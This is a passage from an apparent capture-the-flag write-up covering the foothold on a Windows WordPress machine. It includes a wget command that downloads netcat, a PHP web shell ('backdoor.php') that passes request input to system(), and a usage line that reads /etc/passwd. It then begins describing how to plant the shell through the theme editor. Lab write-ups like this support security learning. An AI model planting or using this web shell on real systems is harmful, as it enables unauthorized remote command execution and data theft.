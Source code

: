 ![Desktop View](/assets/img/Shield/wp_admin.png){: }


### Foothold
---

Now that we are in let's attempt to establish a reverse shell. Since we are on a Windows machine, we must have a Windows PHP reverse shell to gain access and a netcat binary.

> You can download `nc.exe` from [here](https://github.com/int0x33/nc.exe?files=1).
{: .prompt-info}

```console
$ wget https://github.com/int0x33/nc.exe/raw/master/nc.exe
```

The `backdoor.php` script looks like this:

```php
<?php
    if(isset($_REQUEST['cmd'])){
        echo "<pre>";
        $cmd = ($_REQUEST['cmd']);
        system($cmd);
        echo "</pre>";
        die;
   }
?>
Usage: http://target.com/backdoor.php?cmd=cat+/etc/passwd
```

First, click on _Appearance_ then _Themes_.
